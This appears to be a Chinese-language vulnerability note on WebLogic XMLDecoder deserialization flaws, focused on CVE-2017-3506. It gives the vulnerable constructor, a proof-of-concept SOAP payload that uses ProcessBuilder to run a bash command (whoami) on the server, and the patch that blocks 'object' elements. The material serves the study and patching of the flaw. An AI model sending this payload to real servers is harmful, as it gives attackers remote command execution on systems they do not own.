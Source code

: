 #### weblogic XMLDecoder 反序列化漏洞
CVE-2017-3506
CVE-2017-10271
CVE-2017-10352
CVE-2019-2725
CVE-2019-2729
#### CVE-2017-3506
##### 漏洞原因
反序列化数据可控，且对数据未进行任何过滤处理
```
public WorkContextXmlInputAdapter(InputStream var1){
    this.xmlDecoder = new XMLDecoder(var1);
}
```
##### poc
```
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
          <java>
            <object class="java.lang.ProcessBuilder">
              <array class="java.lang.String" length="3">
                <void index="0">
                  <string>/bin/bash</string>
                </void>
                <void index="1">
                  <string>-c</string>
                </void>
                <void index="2">
                  <string>whoami</string>
                </void>
              </array>
              <void method="start"/>
            </object>
          </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>
```

##### 补丁
```
private void validate(InputStream is) {
      WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
      try {
         SAXParser parser = factory.newSAXParser();
         parser.parse(is, new DefaultHandler() {
            public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
               if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
            }
         });
      } catch (ParserConfigurationException var5) {
         throw new IllegalStateException("Parser Exception", var5);
      } catch (SAXException var6) {
         throw new IllegalStateException("Parser Exception", var6);
      } catch (IOException var7) {
         throw new IllegalStateException("Parser Exception", var7);
      }
   }
```